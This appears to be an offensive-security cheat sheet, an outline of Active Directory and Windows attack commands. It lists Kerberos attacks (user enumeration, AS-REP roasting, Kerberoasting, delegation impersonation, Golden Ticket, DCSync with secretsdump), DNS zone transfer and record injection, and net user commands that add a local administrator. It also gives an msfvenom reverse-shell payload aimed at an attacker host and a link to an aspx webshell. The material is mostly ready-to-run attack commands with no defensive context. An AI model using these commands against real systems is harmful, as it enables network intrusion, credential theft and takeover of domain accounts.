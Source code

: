     - zone transfer
      - dig @8.8.8.8 example.com axfr
    - nsupdate (bind)
      - update add my-host.com 30 IN A 192.168.1.1
      - update add 1.1.168.192.in-addr.arpa. 30 PTR my-host.com
  - kerberos
    - Pre-Auth Bruteforce
      - [kerbrute](https://github.com/ropnop/kerbrute)
        - kerbrute userenum --dc target_domain -d example.com users.txt
    - AS-REP Roasting
      - get user (client) passwords
      - GetNPUsers  domain/ -request  -dc-ip 192.168.1.1
    - Kerberoasting
      - get user passwords associated with the service (TGS)
      - GetUserSPNs domainl/user  -request -dc-ip 192.168.1.1
    - Delegation Attack
      - getST.py -spn spn -dc-ip ip -impersonate Administrator domain/user:password
      - users authenticate to services via other protocols, such as NTLM or even form-based authentication, and so they do not send a TGS to the service. In such cases, a service can invoke S4U2Self to ask the authentication service to produce a TGS for arbitrary users to itself, which can then be used as “evidence” when invoking S4U2Proxy. This feature allows impersonating users out of thin air, and it is only possible when the TrustedToAuthForDelegation flag is set for the service account that invokes S4U2Self. 
        - If the service does not have a TGS,. the S4U2Self will create a TGS
        - if the service has a TGS, do nothing
        - S4U2Proxy receives a TGS from th service and processes it
    - [other attacks](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
      - Golden Ticket
        - create a new user ticket from TGT ntlm hash
      - DCSync 
        - [DS-Replication-Get-Changes, DS-Replication-Get-Changes-All](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync)  are required
          - Add-DomainObjectACL
        - leak ntds.dit
          - secretsdump.py domain/user@192.168.1.1

- etc
  - os command injection
    - command
      - timeout
      - ping
      - cmd.exe /c powershell ... 
    - download
      - certutil, rundll32, regsvr32, ...
    - add user
      - net user user_name password /add
      - net localgroup administrators user_name /add
  - pwn
    - [Get-PESecurity](https://github.com/NetSPI/PESecurity)
    - msfvenom -p windows/shell_reverse_tcp lhost=10.10.17.187 lport=4444 -b '\x00\x0A\x0D' -f python 
  - .NET
    - [dnspy](https://github.com/dnSpy/dnSpy)
  - asp/aspx
    - [aspx webshell](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx)
